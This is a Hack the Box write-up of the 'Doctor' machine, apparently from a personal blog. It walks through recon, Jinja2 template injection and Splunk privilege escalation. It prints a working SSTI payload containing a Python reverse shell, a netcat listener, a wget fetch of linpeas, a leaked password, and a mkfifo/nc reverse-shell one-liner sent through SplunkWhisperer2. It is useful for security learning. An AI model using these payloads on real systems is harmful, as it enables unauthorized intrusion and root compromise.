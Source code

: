 +++
author = "Nick"
categories = ["hack the box", "easy", "Linux", "splunk", "reverse shell", "Server Side Template Injection"]
date = 2021-05-01T17:02:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/11/doctor.png"
slug = "hack-the-box-doctor"
tags = ["hack the box", "easy", "Linux", "splunk", "reverse shell", "Server Side Template Injection"]
title = "Hack the Box - Doctor"

+++


Welcome back! Today we are doing the Hack the Box machine - Doctor. This machine is listed as an Easy Linux machine. Let's jump in!

At this point, you know how we kick it off. That's right, `nmap`.

Command:
`nmap -sC -sV -p- -oA allscan 10.10.10.209`

Here are our results:
```
Nmap scan report for 10.10.10.209
Host is up (0.045s latency).                                                                                                                                                                       
Not shown: 65532 filtered ports                                                                                                                                                                    
PORT     STATE SERVICE  VERSION                                                                                                                                                                    
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)                                                                                                               
| ssh-hostkey:                                                                                                                                                                                     
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)                                                                                                                                     
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)                                                                                                                                    
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)                                                                                                                                  
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))                                                                                                                                             
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                                                                                                       
|_http-title: Doctor                                                                                                                                                                               
8089/tcp open  ssl/http Splunkd httpd                                                                                                                                                              
| http-robots.txt: 1 disallowed entry                                                                                                                                                              
|_/                                                                                                                                                                                                
|_http-server-header: Splunkd                                                                                                                                                                      
|_http-title: splunkd                                                                                                                                                                              
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser                                                                                                                
| Not valid before: 2020-09-06T15:57:27                                                                                                                                                            
|_Not valid after:  2023-09-06T15:57:27                                                                                                                                                            
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                                                                                            
                                                                                                                                                                                                   
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                     
Nmap done: 1 IP address (1 host up) scanned in 150.43 seconds  
```

So not much to see. We have a required key SSH option, a site being hosted  on 80 and potentiall 8089. It would seem that a path forward could be through `Splunk`. Awesome! As someone that uses Splunk on the daily, this should be fun.

When we visit the site being hosted, we are greated with a site dedicated to doctors. We see a site listed as doctors.htb, so we'll add that to our hosts lists. This way we can fuzz additional subdomains.

Next we kick of a `gobuster` scan to see what we can find.

Command:
`gobuster dir -u doctors.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,php -t 40`

We get back some basic pages.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-7.png" >}}

Let's try to access some of these 'hidden' pages, like `archive` and `login`. Nothing is there. If we navigate to 'doctors.htb' we are prompted with a login page. Checking the source does show the `archives` page as well.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-8.png" >}}

We can test the login page for basic injections but doesn't seem to be anything there. We can register an account though. We create the account and are given 20 minutes of access. Once we get authenticated we have a very small interface to work with.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-9.png" >}}

We can create new messages it seems.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-10.png" >}}

It's possible this field has some injection options. If we submit an `<h1>` tag, we can see it does reflect the HTML code.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-11.png" >}}

What's interesting about this is that the messages we send are also posted over to `/archive` as well.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-12.png" >}}

As we do more recon about the site, we see that `wappalyzer` has the site framework as `python`. So there are a few scenarios here. This form could be `XSS` or it oculd be `Template Injection` vulnerable. My guess would be the latter. You can read more on `Template Injection` [here](https://portswigger.net/research/server-side-template-injection).

If we google Python Template engine, we see the first result is `jinja`. If we google jinja template injection we see a few options, a good resource being [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings

We can test against this use case by doing just what's listed:

{{< figure src="__GHOST_URL__/content/images/2020/11/image-13.png" >}}

Sure enough, we do get the expected results!

{{< gallery >}}
{{< galleryImg  src="__GHOST_URL__/content/images/2020/11/1.png" width="272" height="166" >}}{{< galleryImg  src="__GHOST_URL__/content/images/2020/11/12.png" width="293" height="96" >}}{{< /gallery >}}

So now, how do we leverage this? We simply leverage the supplied [Remote Code statement](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)!

Since it is `python` based, we can actually modify this statement to supply a standard `python` remote shell.

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.169\",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

We also need to ensure our listener is running on port 9090.

Command:
`nc -lvnp 9090`

We submit the message, check the archive page and we get a shell!

{{< figure src="__GHOST_URL__/content/images/2020/11/image-15.png" >}}

Now that we have a low level shell, we can enumerate and escalate. We'll copy over `linpeas` and see what show up.

Make sure you have a web server running in your peas location.

Command:
`python -m SimpleHTTPServer 80`

Then download `linpeas`.

Command:
`wget 10.10.14.169/linpeas.sh`

Change the file permissions.

Command:
`chmod +x linpeas.sh` 

Then run it.

There's a lot to sift through. We do however, find a password in an old backup file:

{{< figure src="__GHOST_URL__/content/images/2020/11/image-16.png" >}}

We can a assume the user typed his password in the email field here. And given the lines below it, make the assumption that the user is shaun. We'll just switch to Shaun and see.

Command:
`su shaun`

{{< figure src="__GHOST_URL__/content/images/2020/11/image-17.png" >}}

Now if we upgrade our shell and snag our `user.txt` flag. Once we have it, we can start enumerating again. We'll re-run `linpeas` and see what it can find. An item that semi-sticks out is that `root` is running the `splunkd` process.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-18.png" >}}

If you've spent anytime working with `Splunk` you know this is a potentially bad scenario. Items like [SplunkWhisperer2](https://github.com/DaniloCaruso/SplunkWhisperer2) can make for a really bad day.

We'll clone the repo.

Command:
`git clone https://github.com/DaniloCaruso/SplunkWhisperer2`

Now we can use this to escalate our privileges. Simply supply the right commands to get a shell back or even just snag our flag file.

Command:
`python PySplunkWhisperer2_remote.py --lhost 10.10.14.169 --host 10.10.10.209 --username shaun --password Guitar123 --payload '/bin/bash -c "rm /tmp/zzz;mkfifo /tmp/zzz;cat /tmp/zzz|/bin/sh -i 2>&1|nc 10.10.14.169 6666 >/tmp/zzz"'`

{{< figure src="__GHOST_URL__/content/images/2020/11/image-19.png" >}}

We  get a shell back as root! We get our flag and the box is done!



